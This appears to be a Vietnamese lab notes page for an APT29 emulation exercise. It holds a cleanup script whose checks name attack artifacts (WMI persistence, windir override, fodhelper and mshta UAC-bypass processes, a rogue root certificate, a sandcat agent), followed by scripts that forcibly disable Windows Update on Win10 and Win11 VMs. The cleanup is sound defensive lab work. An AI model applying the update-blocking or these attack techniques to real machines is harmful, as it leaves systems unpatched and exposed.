    Set-MpPreference -DisableIOAVProtection $false -ErrorAction Stop
    Set-MpPreference -DisableScriptScanning $false -ErrorAction Stop
    Write-Host "  [OK] Defender restored" -ForegroundColor Green
} catch {
    Write-Host "  [FAILED] Cannot restore Defender" -ForegroundColor Red
    $script:failed++
}
Write-Host ""

# ============================================
# [8] VERIFY
# ============================================
Write-Host "================================================" -ForegroundColor Cyan
Write-Host "  VERIFY" -ForegroundColor Cyan
Write-Host "================================================" -ForegroundColor Cyan
Write-Host ""

$totalChecks = 0
$passChecks = 0
$failChecks = 0

function Check-Item {
    param([string]$Name, [bool]$Condition)
    $script:totalChecks++
    if ($Condition) {
        Write-Host "  [PASS] $Name" -ForegroundColor Green
        $script:passChecks++
    } else {
        Write-Host "  [FAIL] $Name" -ForegroundColor Red
        $script:failChecks++
    }
}

# WMI
Write-Host "  --- WMI ---" -ForegroundColor White
Check-Item "WMI EventFilter" (-not (Get-CimInstance -Namespace root/subscription -ClassName __EventFilter -EA SilentlyContinue | Where-Object { $_.Name -in $wmiNames }))
Check-Item "WMI Consumer" (-not (Get-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -EA SilentlyContinue | Where-Object { $_.Name -in $wmiNames }))
Check-Item "WMI Binding" (-not (Get-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -EA SilentlyContinue | Where-Object { $_.Filter.Name -in $wmiNames }))
Write-Host ""

# Registry
Write-Host "  --- Registry ---" -ForegroundColor White
foreach ($reg in $regPaths) {
    Check-Item "Registry: $reg" (-not (Test-Path $reg))
}
Check-Item "No windir override" (-not (Get-ItemProperty 'HKCU:\Environment' -Name windir -EA SilentlyContinue).windir)
Write-Host ""

# Tasks
Write-Host "  --- Tasks ---" -ForegroundColor White
foreach ($task in $tasks) {
    Check-Item "Task: $task" (-not (Get-ScheduledTask -TaskName $task -EA SilentlyContinue))
}
Write-Host ""

# Files
Write-Host "  --- Files/Folders ---" -ForegroundColor White
foreach ($path in @(
    'C:\Users\Public\apt29',
    'C:\APT29Demo',
    'C:\temp',
    'C:\Users\Public\sandcat.exe',
    'C:\Users\Public\cleanmgr.exe',
    'C:\Users\Public\hta_run.log',
    'C:\Users\Public\hta_ps.log',
    'C:\Users\Public\hta_debug.log',
    'C:\Users\Public\ps_debug.log',
    'C:\Users\Public\debug.hta',
    'C:\Users\Public\run.bat',
    'C:\Users\Public\cert.cer',
    'C:\cleanup.ps1'
)) {
    Check-Item "Path: $path" (-not (Test-Path $path))
}
Write-Host ""

# Processes
Write-Host "  --- Processes ---" -ForegroundColor White
foreach ($proc in @('notepad','sandcat','mshta','fodhelper','computerdefaults','cleanmgr')) {
    Check-Item "Process: $proc" (-not (Get-Process $proc -EA SilentlyContinue))
}
Write-Host ""

# Cert
Write-Host "  --- Cert ---" -ForegroundColor White
$certsRemain = Get-ChildItem Cert:\LocalMachine\Root -EA SilentlyContinue |
    Where-Object { $_.Subject -match '192\.168\.56\.100' }
Check-Item "No APT29 cert in Root" (-not $certsRemain)
Write-Host ""

# Defender
Write-Host "  --- Defender ---" -ForegroundColor White
$def = Get-MpPreference
Check-Item "RealtimeMonitoring" (-not $def.DisableRealtimeMonitoring)
Check-Item "IOAVProtection" (-not $def.DisableIOAVProtection)
Check-Item "ScriptScanning" (-not $def.DisableScriptScanning)
Write-Host ""

# ============================================
# SUMMARY
# ============================================
Write-Host "================================================" -ForegroundColor Cyan
Write-Host "  SUMMARY" -ForegroundColor Cyan
Write-Host "================================================" -ForegroundColor Cyan
Write-Host "  Deleted : $deleted" -ForegroundColor White
Write-Host "  Failed  : $failed" -ForegroundColor White
Write-Host "  Checks  : $totalChecks (Pass: $passChecks, Fail: $failChecks)" -ForegroundColor White
Write-Host ""

if ($failChecks -eq 0 -and $failed -eq 0) {
    Write-Host "================================================" -ForegroundColor Green
    Write-Host "  [SUCCESS] MACHINE IS FULLY CLEAN!" -ForegroundColor Green
    Write-Host "================================================" -ForegroundColor Green
} else {
    Write-Host "================================================" -ForegroundColor Yellow
    Write-Host "  [WARNING] Check [FAIL] items above" -ForegroundColor Yellow
    Write-Host "================================================" -ForegroundColor Yellow
}

# [RESTORE] PowerShell Logging Policies
Write-Host "[Restore] PowerShell Logging Policies..." -ForegroundColor Yellow

$sbPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"
$mlPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging"
$trPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription"

# ScriptBlockLogging = 1
if (-not (Test-Path $sbPath)) { New-Item -Path $sbPath -Force | Out-Null }
Set-ItemProperty -Path $sbPath -Name "EnableScriptBlockLogging" -Value 1 -Type DWord -Force
Write-Host "  [OK] ScriptBlockLogging = 1" -ForegroundColor Green

# ModuleLogging = 1
if (-not (Test-Path $mlPath)) { New-Item -Path $mlPath -Force | Out-Null }
Set-ItemProperty -Path $mlPath -Name "EnableModuleLogging" -Value 1 -Type DWord -Force
Write-Host "  [OK] ModuleLogging = 1" -ForegroundColor Green

# Transcription = 1
if (-not (Test-Path $trPath)) { New-Item -Path $trPath -Force | Out-Null }
Set-ItemProperty -Path $trPath -Name "EnableTranscripting" -Value 1 -Type DWord -Force
Write-Host "  [OK] Transcription = 1" -ForegroundColor Green

Write-Host ""
Write-Host "[*] Recommend: Restart-Computer -Force" -ForegroundColor Cyan
Write-Host ""
```

</details>

```PS1
Set-ExecutionPolicy Bypass -Scope Process -Force
& "C:\cleanup.ps1"
```

# TẮT UPDATE TRÊN WIN10

```PS1
notepad C:\offupdate.ps1
```

<details>
<summary>Đối với win 10</summary>

```PS1
# Tự động yêu cầu quyền Administrator nếu chưa chạy dưới quyền Admin
if (-not ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    Write-Host "Dang khoi chay lai voi quyen Administrator..." -ForegroundColor Yellow
    Start-Process powershell.exe -Verb RunAs -ArgumentList ('-NoProfile -ExecutionPolicy Bypass -File "{0}"' -f $MyInvocation.MyCommand.Path)
    Exit
}

Write-Host "==========================================" -ForegroundColor Cyan
Write-Host "   TIEN HANH TAT WINDOWS UPDATE CHO VM    " -ForegroundColor Cyan
Write-Host "==========================================" -ForegroundColor Cyan

# 1. Dung va vo hieu hoa cac dich vu lien quan den Update
$services = @("wuauserv", "UsoSvc", "BITS", "dosvc")

foreach ($svc in $services) {
    if (Get-Service -Name $svc -ErrorAction SilentlyContinue) {
        Write-Host "Dang xu ly dich vu: $svc..." -ForegroundColor Green
        Stop-Service -Name $svc -Force -ErrorAction SilentlyContinue
        Set-Service -Name $svc -StartupType Disabled -ErrorAction SilentlyContinue
        sc.exe failure $svc reset= 0 actions= "" | Out-Null
    }
}

# 2. Vo hieu hoa Windows Update Medic Service (WaaSMedicSvc) qua Registry
# (Dich vu nay thuong bi Windows chan lenh Set-Service truc tiep)
$waasPath = "HKLM:\SYSTEM\CurrentControlSet\Services\WaaSMedicSvc"
if (Test-Path $waasPath) {
    Write-Host "Dang vo hieu hoa Windows Update Medic Service (WaaSMedicSvc)..." -ForegroundColor Green
    Set-ItemProperty -Path $waasPath -Name "Start" -Value 4 -Type DWord
}

# 3. Thiet lap chinh sach chan Update trong Registry (tuong duong Group Policy)
$registryPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU"
if (-not (Test-Path $registryPath)) {
    New-Item -Path $registryPath -Force | Out-Null
}

Write-Host "Dang ap dung chinh sach Group Policy chan cap nhat..." -ForegroundColor Green
# NoAutoUpdate = 1 (Vo hieu hoa cap nhat tu dong)
Set-ItemProperty -Path $registryPath -Name "NoAutoUpdate" -Value 1 -Type DWord
# AUOptions = 2 (Neu co thong bao thi chi bao chu khong tu tai)
Set-ItemProperty -Path $registryPath -Name "AUOptions" -Value 2 -Type DWord

# 4. Vo hieu hoa cac Scheduled Tasks lien quan den Update
Write-Host "Dang vo hieu hoa cac tac vu Update Orchestrator trong Task Scheduler..." -ForegroundColor Green
$taskPaths = @(
    "\Microsoft\Windows\WindowsUpdate\",
    "\Microsoft\Windows\UpdateOrchestrator\"
)

foreach ($path in $taskPaths) {
    Get-ScheduledTask -TaskPath $path -ErrorAction SilentlyContinue | ForEach-Object {
        Disable-ScheduledTask -TaskName $_.TaskName -TaskPath $_.TaskPath -ErrorAction SilentlyContinue | Out-Null
    }
}

Write-Host "==========================================" -ForegroundColor Cyan
Write-Host "DA HOAN TAT TAT WINDOWS UPDATE THANH CONG!" -ForegroundColor Green
Write-Host "Ban nen chup Snapshot lai may ao tren VMware ngay bay gio." -ForegroundColor Yellow
Write-Host "==========================================" -ForegroundColor Cyan
Read-Host -Prompt "Nhan Enter de thoat"
```

</details>

```PS1
powershell -ExecutionPolicy Bypass -File "C:\offupdate.ps1"
```

<details>
<summary>Đối với win11</summary>

```ps1
#Requires -RunAsAdministrator
# Disable-WindowsUpdate.ps1
# Tắt Windows Update hoàn toàn trên Windows 11 (dùng cho máy ảo)

Write-Host "=== Dang tat Windows Update ===" -ForegroundColor Cyan

# 1. Dừng và vô hiệu hóa các service liên quan
$services = @(
    "wuauserv",      # Windows Update
    "UsoSvc",        # Update Orchestrator Service
    "WaaSMedicSvc",  # Windows Update Medic Service
    "BITS",          # Background Intelligent Transfer
    "DoSvc"          # Delivery Optimization
)

foreach ($svc in $services) {
    try {
        Stop-Service -Name $svc -Force -ErrorAction SilentlyContinue
        Set-Service -Name $svc -StartupType Disabled -ErrorAction SilentlyContinue
        # WaaSMedicSvc bi bao ve, phai sua qua registry
        Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\$svc" `
            -Name "Start" -Value 4 -ErrorAction SilentlyContinue
        Write-Host "[OK] Da tat service: $svc" -ForegroundColor Green
    } catch {
        Write-Host "[!] Khong the tat: $svc" -ForegroundColor Yellow
    }
}

# 2. Chặn qua Group Policy (registry)
$wuPolicy = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate"
$auPolicy = "$wuPolicy\AU"
New-Item -Path $auPolicy -Force | Out-Null

Set-ItemProperty -Path $auPolicy -Name "NoAutoUpdate" -Value 1 -Type DWord
Set-ItemProperty -Path $auPolicy -Name "AUOptions" -Value 1 -Type DWord
Set-ItemProperty -Path $wuPolicy -Name "DoNotConnectToWindowsUpdateInternetLocations" -Value 1 -Type DWord
Set-ItemProperty -Path $wuPolicy -Name "SetDisableUXWUAccess" -Value 1 -Type DWord
# Không tự khởi động lại khi đang đăng nhập
Set-ItemProperty -Path $auPolicy -Name "NoAutoRebootWithLoggedOnUsers" -Value 1 -Type DWord
Write-Host "[OK] Da dat policy chan Windows Update" -ForegroundColor Green

# 3. Tắt tự động cập nhật driver qua Windows Update
$driverPolicy = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate"
Set-ItemProperty -Path $driverPolicy -Name "ExcludeWUDriversInQualityUpdate" -Value 1 -Type DWord
Write-Host "[OK] Da tat cap nhat driver qua Windows Update" -ForegroundColor Green

# 4. Tắt Delivery Optimization (chia sẻ băng thông)
$doPolicy = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\DeliveryOptimization"
New-Item -Path $doPolicy -Force | Out-Null
Set-ItemProperty -Path $doPolicy -Name "DODownloadMode" -Value 0 -Type DWord
Write-Host "[OK] Da tat Delivery Optimization" -ForegroundColor Green

# 5. Vô hiệu hóa các Scheduled Task của Update
$taskPaths = @(
    "\Microsoft\Windows\WindowsUpdate\",
    "\Microsoft\Windows\UpdateOrchestrator\",
    "\Microsoft\Windows\WaaSMedic\"
)

foreach ($path in $taskPaths) {
    Get-ScheduledTask -TaskPath $path -ErrorAction SilentlyContinue | ForEach-Object {
        try {
            Disable-ScheduledTask -TaskName $_.TaskName -TaskPath $_.TaskPath -ErrorAction Stop | Out-Null
            Write-Host "[OK] Da tat task: $($_.TaskName)" -ForegroundColor Green
        } catch {
            Write-Host "[!] Khong the tat task: $($_.TaskName)" -ForegroundColor Yellow
        }
    }
}

# 6. Đặt kết nối mạng thành "metered" không dễ qua script, nên bỏ qua.
#    Thay vào đó, chặn thêm bằng cách đổi quyền file thực thi Update Orchestrator
$usoClient = "$env:SystemRoot\System32\UsoClient.exe"
if (Test-Path $usoClient) {
    try {
        takeown /f $usoClient /a | Out-Null
        icacls $usoClient /deny "Everyone:(X)" | Out-Null
        Write-Host "[OK] Da chan UsoClient.exe" -ForegroundColor Green
    } catch {
        Write-Host "[!] Khong the chan UsoClient.exe" -ForegroundColor Yellow
    }
}

Write-Host "`n=== HOAN TAT. Hay khoi dong lai may ao de ap dung. ===" -ForegroundColor Cyan
```

```ps1
#Requires -RunAsAdministrator
# Enable-WindowsUpdate.ps1

# Gỡ chặn UsoClient
icacls "$env:SystemRoot\System32\UsoClient.exe" /remove:d Everyone | Out-Null

# Xóa policy
Remove-Item "HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate" -Recurse -Force -ErrorAction SilentlyContinue
Remove-Item "HKLM:\SOFTWARE\Policies\Microsoft\Windows\DeliveryOptimization" -Recurse -Force -ErrorAction SilentlyContinue

# Bật lại service
$map = @{ "wuauserv"=3; "UsoSvc"=2; "WaaSMedicSvc"=3; "BITS"=3; "DoSvc"=3 }
foreach ($s in $map.GetEnumerator()) {
    Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Services\$($s.Key)" -Name Start -Value $s.Value -ErrorAction SilentlyContinue
}
Start-Service wuauserv, UsoSvc -ErrorAction SilentlyContinue

# Bật lại task
foreach ($p in "\Microsoft\Windows\WindowsUpdate\","\Microsoft\Windows\UpdateOrchestrator\","\Microsoft\Windows\WaaSMedic\") {
    Get-ScheduledTask -TaskPath $p -ErrorAction SilentlyContinue | Enable-ScheduledTask | Out-Null
}
Write-Host "Da bat lai Windows Update. Hay khoi dong lai may ao." -ForegroundColor Cyan
```

</details>






